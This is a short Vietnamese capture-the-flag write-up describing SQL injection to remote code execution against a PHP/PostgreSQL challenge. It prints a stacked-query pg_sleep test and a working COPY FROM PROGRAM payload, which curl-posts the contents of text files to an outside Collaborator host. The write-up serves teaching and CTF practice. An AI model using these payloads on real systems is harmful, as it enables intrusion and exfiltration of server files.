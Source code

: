 Baby SQL Injection to RCE
![image](img/img1.png)


# 1. Brainstorm:
## Thông tin đề bài cho
* Server dùng dbms là Postgre,php và Nginx
* Mục tiêu là file /flagXXXX.txt (XXXX là random nha)
* Câu query:
![image](img/img2.png)

#### Không parameterized query -> SQLi được

## Kiểm tra xem có thể thực hiện stacked query trên dbms không bằng payload:
#### ' or 1=1; select pg_sleep(10); --

Oke, dính rồi
#### --> Có thể stacked query được

## Đề bài hỏi có execute được os command không ? 
Vậy thì hint đây rồi, tìm cách rce bằng os command.
Tìm được payload như sau
![image](img/img3.png)

# 2. Exploit:
## Phân tích payload
* Ý tưởng của payload là tạo 1 table cmd_exec với column là cmd_output dùng để lưu data của os command được thực thi
* OS command sẽ được thực thi nhờ hàm Copy FROM PROGRAM và lưu vào bên trong cmd_exec table đã tạo
* Sau đó sẽ gọi ra nhờ vào SELECT * FROM cmd_exec
## Craft payload
Không thể in trực tiếp dữ liệu của table ra được vì trong code php trả về cho client chỉ in ra $messenger lấy từ $username nhập vào (Nghĩa là ở đây chỉ in ra câu payload) 
#### --> Đây là Blind SQL Injection. Vậy thì mình out-bound data ra ngoài webhook hoặc burp collaborator thôi.
## POC
#### Payload: 
#### ' OR 1=1; COPY cmd_exec FROM PROGRAM 'curl -X POST --data "data=`cat /*.txt`" 7s0mfarpjzoo6ejxf17tb9ehe8kz8uwj.oastify.com'; --

![image](img/img4.jpeg)
![image](img/img5.jpeg)


## Ngoài lề
Trước khi mình out-bound thì mình đã thử arbitrary write file nhưng có vẻ chỉ có superuser mới có quyền write file :v

